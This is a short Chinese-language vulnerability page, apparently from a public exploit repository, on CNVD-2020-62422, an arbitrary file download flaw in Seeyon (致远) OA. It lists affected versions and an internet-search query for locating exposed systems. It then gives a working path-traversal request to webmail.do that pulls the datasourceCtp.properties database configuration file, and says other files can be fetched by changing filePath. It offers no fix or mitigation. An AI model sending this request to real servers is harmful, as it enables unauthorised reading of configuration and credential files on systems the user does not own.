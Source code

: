 # 致远OA webmail.do 任意文件下载 CNVD-2020-62422

## 漏洞描述

致远OA存在任意文件下载漏洞，攻击者可利用该漏洞下载任意文件，获取敏感信息

## 漏洞影响

<a-checkbox checked>致远OA A6-V5</a-checkbox></br>

<a-checkbox checked>致远OA A8-V5</a-checkbox></br>

<a-checkbox checked>致远OA G6</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="致远互联-OA"</a-checkbox></br>

## 漏洞复现

验证POC

```php
/seeyon/webmail.do?method=doDownloadAtt&filename=test.txt&filePath=../conf/datasourceCtp.properties
```

在漏洞的OA 系统将会下载 **datasourceCtp.properties** 配置文件

![img](../../../.vuepress/public/img/zhiyuan-11.png)



更改参数 filePath 可下载其他文件